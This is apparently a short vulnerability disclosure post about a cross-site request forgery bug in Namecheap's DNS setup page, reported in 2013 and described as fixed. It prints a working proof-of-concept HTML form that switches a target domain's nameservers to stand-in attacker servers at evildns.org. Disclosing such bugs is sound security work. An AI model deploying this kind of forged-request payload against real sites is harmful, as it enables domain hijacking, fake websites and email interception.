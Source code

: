 ```yaml
---
layout: post
title: Namecheap DNS Hijack
tag: 
---
```


# About

* Reported: 03/06/2013
* Vendor Reported as Fixed: 23/12/2013

A bug in Namecheap's DNS setup page was vulnerable to Cross Site Request Forgery, allowing attackers to set custom DNS servers for a target domain, which would let attackers hijack the DNS records and display a fake website on the target domain. Or redirect MX records and intercept email.

# Proof of Concept

```html
<form action="https://manage.www.namecheap.com/myaccount/modsingle.asp?domain=targetdomain.org&amp;type=dns" method="POST">
<input type="hidden" name="NSOption" value="custom" /> 
<input type="hidden" name="customdnstype" value="customdns" />
<input type="hidden" name="NS1" value="ns1.evildns.org" />
<input type="hidden" name="NS2" value="ns2.evildns.org" />
<input type="hidden" name="NSSUBMIT" value="Save Changes" /> 
<input type="hidden" name="NS.x" value="NS" /> 
<input type="hidden" name="Domain" value="targetdomain.org" />
<input type="submit" value="Submit request" /> 
</form>
```

